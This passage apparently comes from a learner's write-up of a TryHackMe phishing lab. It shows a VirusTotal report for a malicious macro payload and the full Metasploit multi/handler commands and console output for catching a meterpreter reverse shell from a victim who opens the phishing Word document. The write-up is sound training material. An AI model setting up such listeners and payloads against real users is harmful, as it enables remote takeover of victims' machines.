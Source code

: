 
You already expect this file to connect to the specified IP address and port. If you would like to check its behaviour in a sandbox, you can check the [VirusTotal report](https://www.virustotal.com/gui/file/ab3f9303460c590c452f0c259a35d50a7a2e7c52a81d4e5a42bb98b365d8ab9b/behavior) for a file that we created and uploaded. In this case, it attempts to connect to `10.9.18.120`.

![VirusTotal summary of the payload behaviour](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859908974.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241210205913.png)

Most of the AV already catch this file so, its pretty simple and informative only, let's check what would happen if a victim just downloaded this file:

## Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro  
    
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell

AttackBox Terminal

```shell-session
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```